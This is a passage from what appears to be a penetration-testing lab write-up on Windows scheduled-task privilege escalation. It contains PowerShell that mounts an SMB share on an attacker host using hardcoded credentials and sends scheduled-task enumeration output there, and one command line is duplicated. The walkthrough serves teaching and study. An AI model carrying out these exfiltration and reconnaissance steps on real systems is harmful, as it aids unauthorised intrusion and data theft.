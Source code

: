 Then I'm gonna send the output of each of these commands and send it to a file on my attacker host through SMB:

```shell
PS C:\Users\user> $pass = ConvertTo-SecureString 'p@ssw0rd' -AsPlainText -Force

PS C:\Users\user> $cred = New-Object System.Management.Automation.PSCredential('low', $pass)

PS C:\Users\user> New-PSDrive -Name "share" -PSProvider "FileSystem" -Root "\\192.168.119.130\share" -Credential $cred

Name           Used (GB)     Free (GB) Provider      Root                                                                                                                              CurrentLocation
----           ---------     --------- --------      ----                                                                                                                              ---------------
share                                  FileSystem    \\192.168.119.130\share

PS C:\Users\user> schtasks /query /fo LIST /v >> \\192.168.119.130\share\scheduled_list.txt

PS C:\Users\user> schtasks /query /fo TABLE /nh >> \\192.168.119.130\share\scheduled_table.txt

PS C:\Users\user> Get-ScheduledTask | where {$_.TaskPath -notlike "\Microsoft*"} | ft TaskName,TaskPath,StateGet-ScheduledTask | where {$_.TaskPath -notlike "\Microsoft*"} | ft TaskName,TaskPath,State >> \\192.168.119.130\share\scheduled_pwsh.txt

PS C:\Users\user> schtasks /query /tn "Custom Task 4" /xml >> \\192.168.119.130\share\scheduled_task.txt
```

In the attacker host, we can read our files:

```shell
❯ ls scheduled_*
 scheduled_list.txt   scheduled_table.txt
 scheduled_pwsh.txt   scheduled_task.txt
```

Since we're in the attacker host, we can open a text editor such as Sublime Text:

{{< image src="/images/posts/subl-scheduled-tasks.png" caption="Sublime Text Scheduled Tasks " src_s="/images/posts/subl-scheduled-tasks.png" src_l="/images/posts/subl-scheduled-tasks.png" >}}

We now know there's an idle setting, let's see the trigger:

{{< image src="/images/posts/subl-scheduled-tasks-1.png" caption="Sublime Text Scheduled Tasks " src_s="/images/posts/subl-scheduled-tasks-1.png" src_l="/images/posts/subl-scheduled-tasks-1.png" >}}

The time format according to [MSDN](https://docs.microsoft.com/en-us/windows/win32/taskschd/repetitionpattern-interval)is the following:

> The amount of time between each restart of the task. The format for this string is `P<days>DT<hours>H<minutes>M<seconds>S` (for example, "PT5M" is 5 minutes, "PT1H" is 1 hour, and "PT20M" is 20 minutes).

Based on the XML data of the scheduled task, the trigger runs every 5 minutes and the idle time has a duration of 10 minutes and it has a 1 hour timeout.
